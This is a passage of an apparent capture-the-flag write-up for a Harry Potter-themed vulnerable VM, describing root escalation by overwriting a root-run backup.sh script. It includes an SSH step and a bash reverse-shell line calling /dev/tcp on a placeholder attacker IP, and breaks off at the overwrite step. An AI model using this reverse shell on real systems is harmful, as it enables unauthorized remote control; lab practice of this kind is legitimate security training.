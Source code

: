 
# README: Exploiting `backup.sh` for Root Access and Discovering the Second Horcrux

## Introduction
This guide provides instructions on how to exploit the `backup.sh` script to gain root access by inserting a reverse shell, running a Netcat listener, and discovering the second Horcrux.

## Prerequisites
- SSH access to the `hagrid98` user.
- `pspy` for monitoring processes (already used to identify `backup.sh`).
- A reverse shell script.
- Netcat for setting up a listener.

## Step-by-Step Guide

### 1. SSH into hagrid98
First, SSH into the `hagrid98` user account using the provided password:
```bash
ssh hagrid98@<target-IP>
```
Replace `<target-IP>` with the actual IP address of the target machine.

### 2. Locate `backup.sh`
Identify the location of the `backup.sh` script. You can use the `locate` command:
```bash
locate backup.sh
```
Assuming the script is located at `/usr/local/bin/backup.sh`.

### 3. Create a Reverse Shell Script
Generate a reverse shell script. You can use an online reverse shell generator or create one manually. Here's an example of a bash reverse shell:

#### Example Reverse Shell Script
```bash
#!/bin/bash
bash -i >& /dev/tcp/<your-ip>/<your-port> 0>&1
```
Replace `<your-ip>` and `<your-port>` with your local machine's IP address and a port number of your choice.
![image15](https://github.com/kanhaiyasingh12/HARRY-POTTER-ARAGOG-1.0.2-/blob/main/Screenshot%202024-05-23%20063450.png)
### 4. Modify `backup.sh`
Overwrite the `backup.sh` script with the reverse shell script: